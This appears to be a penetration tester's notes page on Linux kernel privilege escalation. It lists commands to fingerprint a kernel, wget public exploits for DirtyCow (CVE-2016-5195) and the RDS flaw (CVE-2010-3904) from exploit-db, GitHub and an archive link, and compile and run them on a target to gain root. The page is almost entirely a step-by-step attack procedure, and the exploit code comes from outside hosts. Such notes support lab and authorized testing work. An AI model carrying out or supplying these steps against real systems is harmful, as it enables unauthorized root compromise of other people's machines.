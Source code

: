 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Manual
```
https://github.com/lucyoa/kernel-exploits
```

```bash - target
uname -a
```

Google "Linux debian 2.6.32-5-amd64 exploit"

```bash - kali
 wget https://www.exploit-db.com/raw/40839
```

#### DirtyCow
```bash - target
gcc -pthread c0w.c -o cow
```

```bash - target
./cow
```

```bash - target
passwd
```

#### DirtyCow2
https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c

#### Automated
![[3._Automated Tools#Linux Exploit Suggester]]

#### CVE 2016-5195
```bash - kali
wget https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
```

(un)comment correct payload first (x86 or x64)!

```bash - kali
mousepad cowroot.c
```

#### CVE 2010-3904 RDS
Download this file:
http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c

Transfer to target, compile and run.
```bash - target
gcc linux-rds-exploit.c -o privesc
```

```bash - target
./privesc
```